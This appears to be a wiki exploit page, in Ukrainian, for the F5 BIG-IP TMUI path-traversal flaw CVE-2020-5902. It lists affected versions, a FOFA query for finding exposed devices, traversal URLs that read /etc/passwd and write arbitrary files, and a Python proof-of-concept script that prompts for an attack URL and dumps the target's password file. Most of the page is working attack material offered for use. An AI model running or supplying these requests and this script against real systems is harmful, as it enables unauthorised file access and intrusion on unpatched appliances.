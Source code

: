 <languages />

Вплив вразливості
-----------------

    F5 BIG-IP 15.x: 15.1.0.4

    F5 BIG-IP 14.x: 14.1.2.6

    F5 BIG-IP 13.x: 13.1.3.4

    F5 BIG-IP 12.x: 12.1.5.2

    F5 BIG-IP 11.x: 11.6.5.2

FOFA
----

    title="BIG-IP&reg ;- Redirect"

Експлуатувати
-------------

### Прочитати файл

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

### Записати файл

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

    POST: fileName=/tmp/test.txt&content=test

POC
---

    import requests
    import sys
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Accept-Language":"zh-CN,zh;q=0.9",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
            if "output" in response.text:
                print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
            else:
                print("\033[31m[x] 目标漏洞无法利用 \033[0m")

        except Exception as e:
            print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
            sys.exit(0)


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

Довідка
-------

<https://short.pwnwiki.org/?c=Kum2Ch>